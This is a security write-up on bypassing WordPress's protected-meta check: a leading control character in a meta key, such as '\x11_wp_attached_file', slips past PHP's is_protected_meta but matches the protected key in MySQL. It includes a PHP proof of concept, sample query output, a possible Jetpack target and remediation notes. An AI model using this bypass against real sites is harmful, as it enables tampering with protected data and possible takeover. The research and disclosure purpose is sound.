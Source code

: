 ## WordPress core api and MySQL string comparison

If we execute the following MySQL query against WP database 
```
select * from wp_postmeta where meta_key = concat(char(1),"_wp_attached_file");
```
we will get results in case we had already uploaded media in the past
```
+---------+---------+-------------------+--------------------------------+
| meta_id | post_id | meta_key          | meta_value                     |
+---------+---------+-------------------+--------------------------------+
|      46 |      92 | _wp_attached_file | 2020/07/wpdeeply.png#/boom.png |
|      71 |      99 | _wp_attached_file | wpdeeply                       |
+---------+---------+-------------------+--------------------------------+
2 rows in set (0.00 sec)

```
This is sort of "feature" of MySQL RDBMS, but what this means from WP aspect. It means a lot, because in the past there were account take over / backdoor vulnerabilities fixed silently and today we are going to focus on `update_metadata` function. WordPress prevents medling with protected meta via `is_protected_meta` function which basically checks if `meta_key` starts with `_`, but that isn't enough because it is on PHP side.

Eli5 PoC

Upload media file on your test WP instance and grab the `post_id`. Then run the following code snippet  with your own data / post_id:
```
function bypass_protected_meta(){
    //your demo media(post) id
    $post_id = 99;
    
    $meta_key = "\x11_wp_attached_file";
    $meta_value = "wpdeeply";
    
    //into edit post meta capability there is check for protected meta, but this is for auditorium to be much more clearer 
    if ( current_user_can( 'edit_post_meta', $post_id, $meta_key ) && ! is_protected_meta($meta_key) ){
        update_post_meta($post_id, $meta_key, $meta_value);
    }
}

add_action(init, "bypass_protected_meta");
``` 
Refresh the media (will not be displayed) and if you check in DB `_wp_attached_file` will have the `wpdeeply` value.
Is this bug with impact? Well Jetpack folks will need to answer that https://github.com/Automattic/jetpack/blob/master/json-endpoints/class.wpcom-json-api-update-post-v1-2-endpoint.php#L824, but you can find a lot of use cases on wpdirectory :) 


## Few facts 

- This MySQL behaviour is for huge set of utf-8 characters not only ascii control ones
- Why this happens https://stackoverflow.com/questions/543580/equals-vs-like/2336940#2336940
- There are more places around WP code where unexpected behaviour is in game because at the end of the day WP is just PHP & MySQL web app
- Meddling with protected meta on WP is RCE. Few examples: 

## Remediation

- be careful with data used in MySQL WHERE 
- `is_protected_meta` should be DB/MySQL check against current setup instead PHP one

